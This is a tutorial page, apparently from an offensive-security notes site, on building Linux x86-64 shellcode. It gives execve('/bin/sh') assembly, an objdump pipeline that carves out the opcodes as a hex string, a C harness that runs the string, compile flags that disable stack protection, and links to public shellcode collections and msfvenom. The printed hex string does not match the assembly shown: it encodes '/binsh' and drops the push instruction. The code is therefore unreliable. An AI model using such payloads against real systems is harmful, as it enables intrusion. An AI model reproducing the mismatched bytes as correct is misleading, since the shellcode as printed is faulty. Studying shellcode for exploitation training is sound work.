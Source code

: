 ```yaml
---
description: 10/17/2023
cover: >-
  https://4.bp.blogspot.com/-Vfh5oUmLq1s/VcjcrtDh-HI/AAAAAAAAArc/2eAVjFldSsw/s1600/adduser-metasploit.PNG
coverY: 0
---
```


# 🐚 Shellcode

## Introduction

<mark style="color:yellow;">Shellcode is a set of instructions that are injected by the user and executed by the binary</mark>.

It is usually within the "payload" of our exploit code.

Essentially, shellcode can allow us, attackers, to implement and execute code that never existed in the original binary.

#### How can I make shellcode?

* C
* Python
* x86 Assembly
* Hex strings

### How does it work?

Upon analyzing shellcode, you will come to notice that shellcodes utilize system calls, or syscalls.

#### What are syscalls?

<mark style="color:yellow;">These provide a way of requesting services from the kernel</mark>.

It allows a program to be able to interact with the underlying operating system the binary is existent on.

They are a way of communicating directly with the kernel and are the only entry point to the OS's kernel.

#### What can they do?

Syscalls exist in two primary forms, <mark style="color:yellow;">process control</mark> and <mark style="color:yellow;">file management</mark>.

We can end, terminate, create, allocate, and free memory with process control syscalls.

We can create, open, close, delete, and read files with file management syscalls.

## Shellcode Development

By following this methodology, we can create our own shellcode!

<mark style="color:yellow;">Create shellcode in Assembly, hexdump</mark> (<mark style="color:yellow;">`objdump`</mark><mark style="color:yellow;">/carve out with</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`grep`</mark><mark style="color:yellow;">/</mark><mark style="color:yellow;">`sed`</mark>), <mark style="color:yellow;">and convert our shellcode into a hex string. So, opcodes -> hexstring</mark>.

### Development

`shell.s`:

```nasm
SECTION .text
    global _start
_start:
    mul esi
    push rax
    mov rdi, "/bin/sh"
    push rdi
    mov rdi, rsp
    mov al, 59
    syscall
```

#### Note:&#x20;

What is the `59` you might ask? <mark style="color:yellow;">That is the syscall number for</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`execve()`</mark> that will execute `/bin/sh`.

Assemble and link:

```
nasm shell.s -f elf64 && ld shell.o -o shell
```

<mark style="color:yellow;">We can now execute this file and it will grant us a shell</mark>!

### Carving out Shellcode From our ASM Binary

{% code overflow="wrap" fullWidth="false" %}
```
objdump -d ./shell|grep -e '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x73\x68\x00\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
```
{% endcode %}

We now have a hex string that we can pass into a `char` buffer in C and call in a C program.

`poc.c`:

```c
#include <stdio.h>
#include <unistd.h>

unsigned char shellcode[] =
"\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x73\x68\x00\x57\x48\x89\xe7\xb0\x3b\x0f\x05";

int main()
{
    int (*ret)() = (int(*)())shellcode;
    ret();
}

```

#### Compile:

```
gcc poc.c -o poc -z execstack -fno-stack-protector -no-pie
```

#### Side Note:

Also, you can append `__attribute__((section(".text")))` to the hexstring and it will "force" the hexstring into the `.text` section of the ELF binary.

## Shell-Storm

{% embed url="https://shell-storm.org/shellcode/files/shellcode-603.html" %}

{% embed url="http://shell-storm.org/shellcode/files/shellcode-806.html" %}

## msfvenom

{% content-ref url="../../malware-development/code-and-process-injection/generating-shellcode-w-msfvenom.md" %}
[generating-shellcode-w-msfvenom.md](../../malware-development/code-and-process-injection/generating-shellcode-w-msfvenom.md)
{% endcontent-ref %}
